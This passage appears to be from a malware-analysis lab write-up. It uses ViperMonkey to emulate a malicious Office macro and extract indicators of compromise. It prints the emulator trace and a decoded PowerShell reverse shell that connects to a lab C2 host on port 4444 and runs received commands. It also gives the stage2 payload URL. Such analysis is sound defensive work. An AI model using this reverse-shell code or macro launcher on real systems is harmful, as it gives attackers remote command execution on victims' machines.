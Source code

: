 ``` sh
```

Where we used to perform static analysis and extraction, *Vipermonkey* now enables dynamic analysis by executing the embedded macro in an isolated environment to extract IOCs and other valuable information.

``` text
TRACING VBA CODE (entrypoint = Auto*):
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'
INFO     Emulating loose statements...
INFO     ACTION: Found Entry Point - params 'autoopen' - 
INFO     evaluating Sub AutoOpen
INFO     Calling Procedure: AutoOpenMacro('[]')
INFO     evaluating Sub AutoOpenMacro
INFO     Found possible intermediate IOC (base64): 'powershell.exe -nop -w hidden -e bGllbnQgPSBOZXctT2JqZWN0IFN5c3RlbS5OZXQuU29ja2V0cy5UQ1BDbGllbnQoImh ...'
INFO     calling Function: CreateObject('Wscript.Shell')
INFO     ACTION: CreateObject - params ['Wscript.Shell'] - Interesting Function Call
INFO     calling Function: Run('powershell.exe -nop -w hidden -e bGllbnQgPSBOZXctT2JqZWN0IFN5c3RlbS5OZXQuU29ja2...)
...

Recorded Actions:
+-------------------+---------------------------+---------------------------+
| Action            | Parameters                | Description               |
+-------------------+---------------------------+---------------------------+
| Found Entry Point | autoopen                  |                           |
| CreateObject      | ['Wscript.Shell']         | Interesting Function Call |
| Run               | ['powershell.exe -nop -w  | Interesting Function Call |
|                   | hidden -e bGllbnQgPSBOZXc |                           |
|                   | tT2JqZWN0IFN5c3RlbS5OZXQu |    
...

```

As a result, we get a false positive URL and an interesting base64 encoded string. Using tools like *Cyberchef* or `base64 -d`, we are able to get the actual powershell code.

``` powershell
client = New-Object System.Net.Sockets.TCPClient("http://thmredteam.thm/stage2.exe",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The base64 decoded string result clearly shows the Powershell code. It is evident that the document would try to connect to the C2 server on port *4444* to download the malware called *stage2*.

``` url
http://thmredteam.thm/stage2.exe
```
